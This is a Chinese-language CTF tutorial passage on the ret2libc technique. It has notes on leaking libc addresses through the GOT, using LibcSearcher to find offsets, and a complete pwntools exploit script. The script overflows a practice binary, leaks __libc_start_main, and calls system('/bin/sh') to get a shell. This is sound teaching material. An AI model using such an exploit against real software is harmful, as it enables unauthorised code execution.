 - _函数在libc的相对位置不变_
  - _使用readelf得知\_\_libc_start_main和system在libc的相对位置_
- _使用任意输入函数print出\_\_libc-start_main的.got内容，推算system在内存的addr_
  - _用rop构造puts(\_\_libc_start_main@got)_
  - _要leak的got entry,对应的function必须已经被call过_
- _前提：已有或已知远端libc.so.6版本_

**Libc Data Base**

- _已知两个function的address时可以在libcdb里找对应的版本_

  - _~✘网站：libcdb.com:the libc data base~_
  - _✘网站：[libc.nullbyte.cat](https://libc.nullbyte.cat/)_
  - _✔使用[LibcSearcher](https://github.com/lieanu/LibcSearcher)_

    ```python
    from LibcSearcher import *

    #第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
    obj = LibcSearcher("fgets", 0X7ff39014bd90)

    obj.dump("system")        #system 偏移
    obj.dump("str_bin_sh")    #/bin/sh 偏移
    obj.dump("__libc_start_main_ret")  
    ```

**Leak libc base**
_一般leak \_\_libc_start_main的地址，通过LibcSearcher获取system与/bin/sh的地址，再跳转回main触发溢出执行system('/bin/sh')_

**例子：**[ret2libc3](/uploads/codes/w5/ret2libc3)

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
